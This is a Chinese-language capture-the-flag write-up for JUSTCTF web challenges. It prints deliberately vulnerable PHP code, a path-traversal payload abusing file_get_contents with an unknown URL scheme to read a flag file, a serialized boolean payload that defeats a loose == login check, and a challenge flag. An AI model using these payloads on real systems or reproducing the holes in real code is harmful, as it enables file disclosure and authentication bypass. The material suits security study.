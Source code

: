 

### ez_ssrf

```php
<?php
echo'<center><strong>welc0me to JUSTCTF!!</strong></center>';
highlight_file(__FILE__);
$url = $_GET['url'];
if(preg_match('/justctf\.com/',$url)){
    if(!preg_match('/php|file|zip|bzip|zlib|base|data/i',$url)){
        $url=file_get_contents($url);
        echo($url);
    }else{
        echo('臭弟弟!!');
    }
}else{
    echo("就这？");
}
?>
```

其中`file_get_contents()`是关键，当目标请求时会判断使用的协议，如`http协议`这些，但如果是无法识别的协议就会当做目录，如`abc://`,进而造成目录穿越。
payload:`?url=abc://justctf.com/../../../../../flag`

JUST{ssrf_1s_s0_esay!}

### easy_php

```php
echo "欢迎来到JUSTctf,web没人做，只好送分了";    
show_source(__FILE__);
$username  = "admin";
$password  = "password";
include("flag.php");
$data = isset($_POST['data'])? $_POST['data']: "" ;
$data_unserialize = unserialize($data);
if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){
    echo $flag; 
}else{
    echo "送分题不要？爬吧";
}
```

首先尝试 {'data' : 'a:2:{s:8:"username";s:5:"admin";s:8:"password";s:8:"password";}'}

未知原因错误，不知道为什么。

然后 想到 == 弱类型，构造如下

a:2:{s:8:"username";b:1;s:8:"password";b:1;}

### EZ_Sql

![img](https://pic2.zhimg.com/v2-e8ae6979e1d8c5de73f6d9e11034d5fd_r.jpg)
